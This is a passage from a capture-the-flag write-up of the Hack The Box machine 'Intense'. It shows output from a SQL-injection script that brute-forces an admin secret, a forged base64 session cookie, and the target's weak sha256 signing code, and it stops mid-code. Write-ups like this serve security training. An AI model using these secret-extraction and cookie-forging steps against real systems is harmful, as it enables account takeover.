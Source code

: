 My finalized python script was fairly short, and mostly consisted of creating a request with the SQL injection query in it.  I then iterated over all printable ASCII characters for each of the 64 positions in the secret.  I also added a little timer to see how long it would take to brute force the whole secret.

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./secret-brute-force.py 
Iterating through all 64 chars in the secret: 
The secret for admin is: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
Total runtime: 
--- 48.5825309753418 seconds ---
```

The whole brute force went pretty quickly!  From the timer I found that it took less than 50 seconds to go through the whole string.

```text
auth=username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;<unprintable_binary>
```

Next I crafted my new `auth` cookie, `base64`'d it, and got the result: `dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY=`

![](/assets/img/9-broke-site.png)

Using this cookie, however, broke the whole site and made it so no pages would load. I figured it had something to do with the unreadable signature characters that were appended to the end of the secret in the cookie.

```python
def sign(msg):
    """ Sign message with secret key """
    return sha256(SECRET + msg).digest()


def verif_signature(data, sig):
    """ Verify if the supplied signature is valid """
    return sign(data) == sig


def parse_session(cookie):
    """ Parse cookie and return dict
        @cookie: "key1=value1;key2=value2"

        return {"key1":"value1","key2":"value2"}
    """
    b64_data, b64_sig = cookie.split('.')
    data = b64decode(b64_data)
    sig = b64decode(b64_sig)
    if not verif_signature(data, sig):
        raise InvalidSignature
    info = {}
    for group in data.split(b';'):
        try:
            if not group:
                continue
            key, val = group.split(b'=')
            info[key.decode()] = val
        except Exception:
```